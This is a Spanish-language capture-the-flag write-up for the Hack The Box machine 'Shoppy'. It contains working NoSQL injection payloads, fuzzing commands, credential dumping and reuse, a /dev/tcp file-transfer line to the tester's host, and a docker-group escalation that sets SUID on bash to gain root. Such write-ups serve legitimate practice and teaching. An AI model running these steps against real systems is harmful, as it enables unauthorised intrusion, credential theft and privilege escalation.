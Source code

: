 # 10.10.11.180 - Shoppy
-----------------------

Puertos abiertos 22, 80(http) y 9093:

En cuanto ponemos la IP sale http://shoppy.htb/ pero al no resolver el dominio da error, se soluciona poniendolo
en el /etc/hosts.

```console
└─$ whatweb http://shoppy.htb    
HTML5, HTTPServer[nginx/1.23.1], JQuery
```

La web nos presenta una cuenta atras. Si fuzeamos...
```console
└─$ wfuzz -t 200 --hc=404 --hl=7 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt http://shoppy.htb/FUZZ/
000000039:   200        25 L     62 W       1074 Ch     "login"
000000245:   302        0 L      4 W        28 Ch       "admin"
```
El codigo de error 404 es un "cannot /GET", el tipico de nginx.
Otra cosa de nginx esque funciona con javascript, asi que no fuzzearemos por extensiones php.

En /login nos encontramos un panel de registro. No tenemos credenciales asi que habra que tirar de inyecciones.
```console
└─$ curl -s -X POST http://shoppy.htb/login -d "username=test&password=test"
Found. Redirecting to /login?error=WrongCredentials
```
Nginx suele usar nosqli, pero si intentamos una inyeccion se nos queda pillado:
```console
└─$ curl -s -X POST http://shoppy.htb/login -d "username=admin&password[$ne]=test"
└─$ curl -s -X POST http://shoppy.htb/login -H "Content-Type: application/json" \
-d $'{"username":"admin","password":{"$ne":""}}' -L
```
Ninguna funciona, otra inyeccion nosqli seria ```admin'||'1'=='1"``` equivalente a ```admin' or 1=1-- -``` del sql
Con esa ultima entramos al panel de administracion.

Hay un boton de "search for users", como no sabemos si hay mas gente a parte de admin repetimos la query
```admin'||'1'=='1"```, dandonos un boton de ver reporte:
```
{"_id": "62db0e93d6d6a999a66ee67a",
 "username": "admin",
 "password": "23c6877d9e2b564ef8b32c3a23de27b2"},
{"_id": "62db0e93d6d6a999a66ee67b",
 "username": "josh",
 "password": "6ebcea65320589ca4f2f1ce039975995"}
```
En crackstation nos crakean el 6e... como "remembermethisway"
Pero no nos sirve para ssh ```sshpass -p "remembermethisway" ssh josh@10.10.11.180```

Si hacemos un fuzzing de subdominios con el diccionario clasico ```/usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt```
No ncontramos nada en cambio este:
```console
└─$ wfuzz -c --hl=7 -w $(locate bitquark-subdomains-top100000.txt) -H "Host: FUZZ.shoppy.htb" -u http://shoppy.htb/ -t 100
000047340:   200        0 L      141 W      3122 Ch     "mattermost"
```

mattermost.shoppy.htb nos presenta un panel de login. Entramos con las creds josh:rememberthisway
Es un chat, encontramos el mensaje en el canal "Development":

```console
Ey @jaeger, cuando estaba intentado instalar docket en la maquina empece a aprender C++ e hice un gestor de contraseñas.
Lo puedes testear si quieres, esta en la maquina 
```
En el canal "coffe-break" sale una tal jess enseñando a su gato Tigrou
En "deply-machine" nos dan las creds jaeger:Sh0ppyBest@pp!
```console
└─$ sshpass -p 'Sh0ppyBest@pp!' ssh jaeger@10.10.11.180 
```
En el directorio /home de deply está ese script de C++ "password-manager.cpp"

Si enumeramos el sistema con mi script, acabamos con el resultado de ```sudo -l```
```(deploy) /home/deploy/password-manager```
```console
jaeger@shoppy:/tmp$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sh0ppyBest@pp!
Access denied! This incident will be reported !
```
Como ltrace y strace no existen, tiramos de strings:
```console
jaeger@shoppy:/tmp$ strings /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password:
Access granted! Here is creds !
cat /home/deploy/creds.txt
Access denied! This incident will be reported !

jaeger@shoppy:/tmp$ cat < /home/deploy/password-manager > /dev/tcp/10.10.14.14/666

Si recibimos el binario:
```console
└─$ sudo nc -nlvp 666 > password-manager
└─$ chmod +x password-manager
```
Abrimos el binario con ltrace y strace, no hallamos nada interesante, en cambio si intentamos leer
el codigo ensamblador con radare2

```
└─$ r2 password-manager
[0x00001120]> aaa
[0x00001120]> afl
[0x00001120]> s main
[0x00001205]> pdf
# Lineas mas adelante leemos:
0x0000129b      488d35bb0d00.  lea rsi, str.Sample         ; 0x205d ; u"Sample
```
Esto tambien se puede ver con strings si cabmiamos el encoding a little endian:
```
└─$ strings -e l password-manager
Sample
```
```console
jaeger@shoppy:/home/deploy$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

Nuestro usaurio deply forma parte del grupo "docker" (comando ```id```)
```console
deploy@shoppy:/tmp$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
alpine       latest    d7d3d98c851f   6 months ago   5.53MB
deploy@shoppy:/tmp$ docker run -it -v /:/mnt/root --name cucuxii alpine
/ # cd mnt
/mnt # ls
root
/mnt/root # ls
# Todo el sistema madre
/mnt/root/usr/bin # chmod u+s /mnt/root/usr/bin/bash
mnt/root/usr/bin # exit
deploy@shoppy:/tmp$ bash -p
bash-5.1# whoami
root
```



